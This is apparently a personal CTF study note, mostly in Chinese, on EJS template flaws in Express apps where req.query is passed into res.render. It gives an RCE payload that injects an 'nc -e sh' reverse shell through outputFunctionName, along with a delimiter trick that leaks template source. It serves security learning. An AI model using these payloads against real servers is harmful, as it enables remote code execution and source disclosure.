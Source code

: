 alias:: EJS

- # SSTI
	- [[CTF/SSTI/EJS]]
- # 原型链污染
	- [[CTF/JS/EJS的原型链污染]]
	- [[CTF/WP/CTFShow/web341]]
- # render函数传递参数导致的问题
  id:: 64d7a180-ce15-46d7-b3c5-9ae47612b34e
	- 参考
		- https://eslam.io/posts/ejs-server-side-template-injection-rce/
			- 虽然文章说只对旧版有效，但是不知道为什么``ejs@3.1.9``仍然可以使用这个漏洞实现模板泄漏
		- https://www.npmjs.com/package/ejs
			- 其中有delimiter等options的定义
	- 原理
		- 如果有形似`res.render('views/page.ejs', req.query);`的渲染方法，我们可以通过在req.query中传递恶意参数来控制ejs的渲染结果，实现RCE
		- `ejs.renderFile`会在`data`对象中看到我们的query, 然后其会根据`data.settings['view options']`拿出viewOpt合并到渲染选项中，所以我们提供viewOpt即可自定义渲染选项
	- 注意
		- 第一个参数为文件名时，express会控制ejs缓存渲染结果，所以需要在文件产生后立马发送payload，不能在访问路径，已经渲染了模板之后再发送payload
	- payload
		- RCE
			- 新版ejs会使用正则`/^[a-zA-Z_$][0-9a-zA-Z_$]*$/`检查`outputFunctionName`是否合法，不能使用这个payload
			- ```text
			  settings[view options][outputFunctionName]=x;process.mainModule.require('child_process').execSync('nc -e sh 127.0.0.1 1337');s
			  ```
		- 查看模板
			- ```text
			  settings[view+options][delimiter]=nope114514
			  ```
-